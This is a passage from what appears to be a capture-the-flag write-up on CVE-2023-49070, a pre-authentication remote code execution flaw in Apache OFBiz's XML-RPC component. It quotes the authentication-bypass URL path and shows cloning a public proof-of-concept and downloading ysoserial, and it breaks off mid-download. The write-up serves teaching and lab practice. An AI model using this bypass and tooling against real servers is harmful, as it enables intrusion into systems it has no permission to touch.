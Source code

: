 #### Background

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-49070) doesn't give too
much in the way of detail:

> Pre-auth RCE in Apache Ofbiz 18.12.09. It's due to XML-RPC no longer
> maintained still present. This issue affects Apache OFBiz: before
> 18.12.10. Users are recommended to upgrade to version 18.12.10

There is an XML-RPC component that is no-longer maintained, and somehow
accessible pre-auth. Execution is achieved by sending a serialized Java
object to the XML-RPC component. The original discoverer of the
vulnerability is a security researcher,
[\@siebene@](https://twitter.com/Siebene7/):

> [#CVE](https://twitter.com/hashtag/CVE?src=hash&ref_src=twsrc%5Etfw)-2023-49070\
> Pre-auth RCE Apache Ofbiz
> 18.12.09[#POC](https://twitter.com/hashtag/POC?src=hash&ref_src=twsrc%5Etfw):\
> /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y\
> \
> Ref: <https://t.co/NSgI7IQckp>\
> \
> cc to me. [pic.twitter.com/SHOkhzlH09](https://t.co/SHOkhzlH09)
>
> --- Siebene@ (@Siebene7) [December 5,
> 2023](https://twitter.com/Siebene7/status/1731870759130427726?ref_src=twsrc%5Etfw)

### RCE

#### Prep

I'll grab a POC script [from abdoghazy2015's
GitHub](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC).
It requires a copy of [ysoserial](https://github.com/frohoff/ysoserial)
in the same directory in order to build a specific serialized payload
with the desired command. Then it builds an XML payload using that
attack payload, and submits it to `/webtools/control/xmlrpc;/` just like
in the Tweet above.

I'll clone a copy of the repo and get `ysoserial-all.jar`:



    oxdf@hacky$ git clone https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC.git
    Cloning into 'ofbiz-CVE-2023-49070-RCE-POC'...
    remote: Enumerating objects: 30, done.
    remote: Counting objects: 100% (30/30), done.
    remote: Compressing objects: 100% (23/23), done.
    remote: Total 30 (delta 7), reused 0 (delta 0), pack-reused 0
    Receiving objects: 100% (30/30), 8.23 KiB | 8.23 MiB/s, done.
    Resolving deltas: 100% (7/7), done.
    oxdf@hacky$ cd ofbiz-CVE-2023-49070-RCE-POC/
    oxdf@hacky$ wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
    --2024-05-20 15:55:41--  https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
    Resolving github.com (github.com)... 140.82.113.4
    Connecting to github.com (github.com)|140.82.113.4|:443... connected.
    HTTP request sent, awaiting response... 302 Found
    Location: https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar [following]
    --2024-05-20 15:55:41--  https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
    Reusing existing connection to github.com:443.
    HTTP request sent, awaiting response... 302 Found